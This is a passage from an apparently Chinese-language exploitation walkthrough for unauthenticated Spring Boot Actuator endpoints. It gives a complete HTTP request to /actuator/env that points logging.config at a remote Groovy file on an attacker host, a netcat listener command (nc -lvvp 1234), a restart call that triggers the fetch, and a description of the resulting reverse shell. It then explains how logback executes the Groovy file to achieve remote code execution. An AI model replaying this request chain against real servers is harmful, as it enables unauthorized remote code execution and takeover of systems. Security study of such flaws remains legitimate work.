 请求报文如下

```
POST /actuator/env HTTP/1.1
Host: 192.168.233.242:9098
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
Cache-Control: max-age=0
Content-Type: application/json
Content-Length: 83

{"name":"logging.config","value":"http://192.168.233.242:8080/example.groovy"}
```

![image-20210831181920688](Spring Boot Actuator未授权访问利用实战利用.assets/image-20210831181920688.png)



在攻击主机上监听1234端口

```
nc -lvvp 1234
```



然后向/actuator/restart请求重启项目

![image-20210831180134395](Spring Boot Actuator未授权访问利用实战利用.assets/image-20210831180134395.png)



可以看到目标主机反向连接成功

![image-20210831180922722](Spring Boot Actuator未授权访问利用实战利用.assets/image-20210831180922722.png)







##### 利用原理

- 目标机器通过 logging.config 属性设置 logback 日志配置文件 URL 地址

- restart 重启应用后，程序会请求设置的 URL 地址

- logback-classic` 组件的 `ch.qos.logback.classic.util.ContextInitializer.java` 代码文件逻辑中会判断 url 是否以 `groovy` 结尾

- 如果 url 以 `groovy` 结尾，则最终会执行文件内容中的 groovy 代码，造成 RCE 漏洞

  



#### 2.12. restart spring.main.sources groovy RCE
